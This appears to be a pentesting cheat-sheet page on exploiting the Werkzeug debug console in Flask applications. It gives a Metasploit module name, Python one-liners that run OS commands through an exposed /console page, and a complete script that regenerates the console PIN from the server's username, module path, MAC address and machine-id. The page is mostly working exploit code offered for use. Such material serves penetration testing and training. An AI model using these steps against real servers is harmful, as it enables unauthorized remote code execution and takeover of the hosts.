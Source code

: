 ```yaml
---
title: Werkzeug Pentesting
description: Werkzeug is a comprehensive WSGI web application library.
tags:
    - Remote Code Execution
    - Web
refs:
date: 2023-03-11
draft: false
---
```


Werkzeug is used for **[Flask](/exploit/web/framework/python/flask-jinja2-pentesting/)** application.

## Remote Code Execution (RCE) in Console

### Metasploit

```sh
msfconsole
msf> use exploit/multi/http/werkzeug_debug_rce
```

### Manual Exploitation

If you can access to **'/console'** page, you may be able to execute RCE.

```py
__import__('os').popen('whoami').read();
import os; print(os.popen("whoami").read())
```

<br />

## Console PIN Exploit

If the website is locked by PIN code in the **'/console'** page, you need to unlock it.  
Reference: [https://www.daehee.com/werkzeug-console-pin-exploit/](https://www.daehee.com/werkzeug-console-pin-exploit/)

```py
def get_pin_and_cookie_name(app):
    pin = os.environ.get('WERKZEUG_DEBUG_PIN')
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == 'off':
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace('-', '').isdigit():
        # If there are separators in the pin, return it directly
        if '-' in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, '__module__',
                      getattr(app.__class__, '__module__'))

    try:
        # `getpass.getuser()` imports the `pwd` module,
        # which does not exist in the Google App Engine sandbox.
        username = getpass.getuser()
    except ImportError:
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, '__name__', getattr(app.__class__, '__name__')),
        getattr(mod, '__file__', None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [
        str(uuid.getnode()),
        get_machine_id(),
    ]

    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                              for x in range(0, len(num), group_size))
                break
        else:
            rv = num

    return rv, cookie_name
```

Variable needed to exploit the console PIN.

```sh
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

Once all variable prepared, run the following script to generate the console PIN:

```py
import hashlib
from itertools import chain
probably_public_bits = [
    'user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```